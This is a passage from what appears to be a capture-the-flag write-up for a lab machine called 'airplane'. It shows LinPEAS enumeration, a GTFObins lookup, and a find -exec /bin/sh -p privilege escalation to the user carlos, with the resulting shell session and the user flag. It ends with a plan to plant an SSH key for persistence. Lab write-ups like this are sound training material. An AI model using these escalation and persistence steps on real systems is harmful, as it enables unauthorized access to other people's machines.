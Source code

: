 ```bash
```

## LinPEAS 

We can use [LinPEAS](../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) to find vulnerabilities, lit will find we can run `find` as sudo .
## GTFObins

We can go to [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) and find what we need to escalate :

![Pasted image 20250722163428.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722163428.png)

So let's give that a shot :

```bash
hudson@airplane:~$ /usr/bin/find -exec /bin/sh -p \; -quit
$ whoami
carlos
$ ls
app  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
$ cd ..
$ ls
carlos  hudson
$ cd carlos
$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
$ cat user
cat: user: No such file or directory
$ cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

We can access `carlos` on ssh to have a more stable shell without stabilizing it, we'll follow the same path as other user, echo our public key in .ssh folder :
